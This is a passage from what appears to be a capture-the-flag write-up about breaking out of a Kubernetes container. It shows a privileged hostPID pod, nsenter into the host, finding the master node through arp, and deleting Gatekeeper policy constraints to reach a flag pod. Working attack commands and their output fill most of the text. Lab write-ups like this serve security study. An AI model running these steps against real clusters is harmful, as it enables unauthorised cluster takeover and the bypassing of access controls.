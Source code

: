 This is a dangerous, yet well known feature. For example [docker issue #37161](https://github.com/moby/moby/issues/37161#issue-326813022) 

Using the available namespaces in Linux we can mount various namespaces, and build a very handsome TTY. We use `nsenter` for this.

Once there not only can we enjoy the networking namespaces on the host. But we also can conveniently use the tooling installed there as well. In this case we use `arp -a` to see what we can find. 

```
root@entry:/# nsenter -t 1 -m -u -i -n bash
root@ip-172-20-32-143:/# arp -a
? (100.96.2.145) at ae:28:b0:a1:bd:a7 [ether] on cbr0
? (100.96.2.141) at d2:85:ef:1a:d3:54 [ether] on cbr0
? (100.96.2.137) at 0e:90:84:41:fd:7a [ether] on cbr0
ip-172-20-40-58.eu-west-1.compute.internal (172.20.40.58) at 02:02:d7:35:28:a0 [ether] on eth0
? (100.96.2.142) at 2e:5b:b1:de:a7:26 [ether] on cbr0
? (100.96.2.143) at 26:20:ac:e2:ec:1e [ether] on cbr0
ip-172-20-32-1.eu-west-1.compute.internal (172.20.32.1) at 12:81:f3:5f:81:52 [ether] on eth0
root@ip-172-20-32-143:/# 
```

We find some familiar looking hostnames. In AWS, typically Kubernetes nodes are named after the hostname. So we try them to find our master.

```
[nova@nova ~]$ kubectl run entry --image nginx --overrides '{"spec":{"nodeName":"ip-1-2-3-3.eu-west-1.compute.internal","hostPID":true,"containers":[{"name":"nginx","image":"nginx","command":["/bin/bash"],"stdin":true,"tty":true,"securityContext":{"privileged":true}}]}}' --rm --restart=Never -it --attach
If you don't see a command prompt, try pressing enter.
root@entry:/# nsenter -t 1 -m -u -i -n bash
root@ip-172-20-40-58:/# kubectl get po -n kube-system | wc -l # :D
16
```

Because we are running kops, the master happens to have `kubectl` conveniently already set up for us. We can delete the Gatekeeper configuration opening up the cluster from our policy constraints. 

```
root@ip-172-20-40-58:/# kubectl get constraints 
NAME                AGE
k8srequiredlabels   1h
root@ip-172-20-40-58:/# kubectl delete constraints k8srequiredlabels # :D
constrainttemplate.templates.gatekeeper.sh "k8srequiredlabels" deleted
```

At this point we are able to violate the OPA policy we set up, as well as bypass Kubernetes RBAC. We capture the flag, and have been able to take over the cluster.

```
root@ip-172-20-40-58:/# kubectl get pods -n flag
NAME                     READY   STATUS    RESTARTS   AGE
nginx-7cdbd8cdc9-67gv6   1/1     Running   0          72m
root@ip-172-20-40-58:/# kubectl exec -it nginx-7cdbd8cdc9-67gv6 -n flag /bin/bash
root@nginx-7cdbd8cdc9-67gv6:/# cat FLAG
a2bc3d1a4cd
root@nginx-7cdbd8cdc9-67gv6:/# 
```
